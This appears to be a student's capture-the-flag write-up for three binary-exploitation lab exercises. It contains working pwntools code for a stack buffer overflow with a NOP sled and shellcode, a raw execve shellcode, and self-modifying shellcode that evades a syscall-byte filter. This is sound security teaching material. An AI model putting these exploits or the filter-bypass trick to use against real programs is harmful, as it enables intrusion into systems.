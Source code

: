 # BOF101

The first thing to do to exploit the vulnerability in this exercise as the name suggested was finding the correct offset to make the input buffer overflow.
In order to do so I used the cyclic pattern explained in the slides using pwntool=s methods that made this task quite simple

```python
pattern = pwn.cyclic(100)
io = pwn.process(bin)
io.sendline(pattern)
offset = pwn.cyclic_find(0x6161616C)
```

The text printed out by the bin suggested that there was a leaked address where it was possible to inject some code so I parsed it out and added it to the payload along with a 'nop sled', that assured that the next instruction would be our shellcode forged using pwntools

```python
leaked_address = io.recvuntil(b"&x=")
leaked_address = io.recvline().strip().decode()
io.sendline(
    b"a" * OFFSET_RIP
    + pwn.p64(int(leaked_address, 16))
    + pwn.asm("nop") * 50
    + pwn.asm(pwn.shellcraft.sh())
)
```

Doing so I was able to get the first flag

```
BASC{Congratz_U_3Xpl0it3d_your_f1r5t_BOF}
```

# Smallcode

```
Don't be fooled by my name: I'm a great code-runner ;-) ... though I can only run a small amount of code each time.

Send me any x64 shellcode, up to 25 bytes, and I'll execute it (at a random address, in rwx memory).
```

Using the resources I found in the slides I was able to find a shell-code on "shell-storm.org" with a length of just 24 bytes that executed the command 

```c
execve("/bin/bash",{NULL},{NULL})
```

Sending the shell-code as I found it was just enough to get the flag

```python
shellcode = b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05"
io.send(shellcode)
```

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
```

# No_syscalls

```
Send me any x86 shellcode (up to 42 bytes), which contains no system calls, and I'll execute it (at a random address, in rwx memory).
```

In order to spawn a shell is necessary to do at least one syscall so it had to be forged anyway in our code. Trying to send a simple shell-code containing syscalls' bytes resulted in

```
INT 80h is forbidden
```

So there must have been some byte-checking step that blocked syscalls.
An approach explained in the slides was 'self-modifying code' that permits to avoid restrictions in some cases.
So I slightly modified the original shell-code

```python
    shellcode = pwn.asm(
    """
    _start:
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx,esp
    mov ecx,eax
    mov edx,eax
    mov al,0xb
    call _incr

    _incr:
    pop edi
    inc byte ptr [edi + 5]
    .byte 0xcd
    .byte 0x7f
	"""
	)
```

The trick resides in the 'incr' function where the instead of explicitly writing the 0x80 syscall's byte I wrote 0x7f, which is incremented by one in a second moment, bypassing the pattern checking and successfully bringing out the exploit and granting me the flag

```
BASC{s4ndb0X1n9_AiNt_3a5y}
```
